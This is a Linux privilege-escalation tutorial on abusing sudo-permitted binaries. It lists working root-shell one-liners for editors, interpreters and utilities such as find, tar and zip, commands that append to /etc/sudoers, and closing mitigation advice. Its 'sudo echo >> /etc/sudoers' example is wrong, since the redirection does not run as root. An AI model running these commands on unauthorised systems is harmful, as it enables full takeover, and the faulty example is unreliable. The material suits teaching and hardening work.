

# Table of Contents
- [Abusing Sudo Binaries](#abusing-sudo-binaries)
- [Detailed Workflow](#detailed-workflow)
  - [1. Enumerating Sudo Permissions](#1-enumerating-sudo-permissions)
  - [2. Exploiting the Allowed Binaries](#2-exploiting-the-allowed-binaries)
- [Examples of Exploitable Binaries](#examples-of-exploitable-binaries)
  - [Interactive Shells](#interactive-shells)
  - [Text Editors](#text-editors)
  - [Scripting Languages](#scripting-languages)
  - [System Utilities](#system-utilities)
  - [Exploiting File Access](#exploiting-file-access)
- [Using GTFOBins for Exploitation](#using-gtfobins-for-exploitation)
- [Real-World Scenarios](#real-world-scenarios)
- [Mitigation Strategies](#mitigation-strategies)
  - [Limit Sudo Permissions](#limit-sudo-permissions)
  - [Use NOEXEC](#use-noexec)
  - [Audit Sudo Configurations](#audit-sudo-configurations)
  - [Enforce Principle of Least Privilege](#enforce-principle-of-least-privilege)
  - [Monitor Sudo Usage](#monitor-sudo-usage)
- [Conclusion](#conclusion)

# **Abusing Sudo Binaries**

**Abusing Sudo Binaries** is a well-known privilege escalation technique in Linux systems. It exploits misconfigurations in the `sudo` command, allowing a user with limited privileges to execute specific binaries as a higher-privileged user, typically `root`. If such binaries are improperly restricted, they can be leveraged to gain unauthorized access or escalate privileges.  
This technique is often used in **post-exploitation scenarios** where an attacker, with limited access to a system, attempts to escalate privileges to gain full control.



## **Detailed Workflow**

### **1. Enumerating Sudo Permissions**

The first step is to determine which binaries the user can execute with `sudo`. Use the following command:

```bash
sudo -l
```

Example Output:

```bash
User amr may run the following commands on target:
(ALL) NOPASSWD: /usr/bin/vim
(ALL) NOPASSWD: /usr/bin/python3
(ALL) NOPASSWD: /usr/bin/awk
```

Key Points:

- `NOPASSWD`: No password is required to execute the command.
- `(ALL)`: The command can be run as any user, including `root`.

### **2. Exploiting the Allowed Binaries**

Certain binaries allow you to execute commands, spawn a shell, or modify system files. Here are some examples:

## **Examples of Exploitable Binaries**

### **Interactive Shells**

Some binaries allow you to directly spawn a shell.

- **bash**:

```bash
sudo bash
```

- **sh**:

```bash
sudo sh
```

### **Text Editors**

Many text editors have built-in commands to execute shell commands.

- **vim**:

```bash
sudo vim -c ':!bash'
```

- **nano**:  
In `nano`, press `Ctrl+R` followed by `Ctrl+X` to execute commands:

```bash
sudo nano
```

Then type:

```bash
!/bin/bash
```

- **less**:

```bash
sudo less /etc/hosts
```

Press `!` and type:

```bash
bash
```

### **Scripting Languages**

Scripting languages like Python, Perl, and Ruby can execute system commands.

- **Python**:

```bash
sudo python -c 'import os; os.system("/bin/bash")'
```

- **Perl**:

```bash
sudo perl -e 'exec "/bin/bash";'
```

- **Ruby**:

```bash
sudo ruby -e 'exec "/bin/bash";'
```

### **System Utilities**

Some utilities allow command execution or file manipulation.

- **awk**:

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

- **find**:

```bash
sudo find / -exec /bin/bash \;
```

- **tar**:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

- **zip**:

```bash
sudo zip exploit.zip /tmp -T --unzip-command="sh -c /bin/bash"
```

### **Exploiting File Access**

If a binary allows editing system-critical files, it can be used to escalate privileges.

- **echo**:

```bash
sudo echo "amr ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

- **tee**:

```bash
echo "amr ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers
```

## **Using GTFOBins for Exploitation**

The GTFOBins database is an excellent resource to identify exploitable binaries. It provides ready-to-use commands for privilege escalation based on the binary's functionality.

Steps:

1. Visit the GTFOBins website.
2. Search for the binary listed in `sudo -l`.
3. Follow the provided exploitation commands.

## **Real-World Scenarios**

### **Scenario 1: Exploiting `vim`**

A user has `sudo` permissions for `/usr/bin/vim`:

```bash
sudo vim -c ':!bash'
```

This spawns a root shell.

### **Scenario 2: Exploiting `find`**

A user can run `find` with sudo:

```bash
sudo find / -exec /bin/bash \;
```

This command uses `find` to execute a root shell.

### **Scenario 3: Editing Sensitive Files**

If `sudo tee` is allowed:

```bash
echo "amr ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers
```

This grants the user full sudo privileges.

## **Mitigation Strategies**

### **Limit Sudo Permissions**

- Avoid using `ALL` or `NOPASSWD` for binaries unless absolutely necessary.
- Only allow specific, non-exploitable commands.

### **Use NOEXEC**

Prevent certain binaries from spawning subshells by enabling `NOEXEC` in the sudoers configuration:

```bash
Defaults!/usr/bin/vim noexec
```

### **Audit Sudo Configurations**

Regularly review the `/etc/sudoers` file and related configurations to identify and remove unnecessary permissions.

### **Enforce Principle of Least Privilege**

Grant users the minimum privileges required to perform their tasks.

### **Monitor Sudo Usage**

Use logging and monitoring tools to track sudo commands executed by users.

## **Conclusion**

Abusing sudo binaries demonstrates the importance of secure configuration management and strict privilege control. By understanding how these techniques work and implementing proper mitigation strategies, system administrators can significantly reduce the risk of privilege escalation attacks.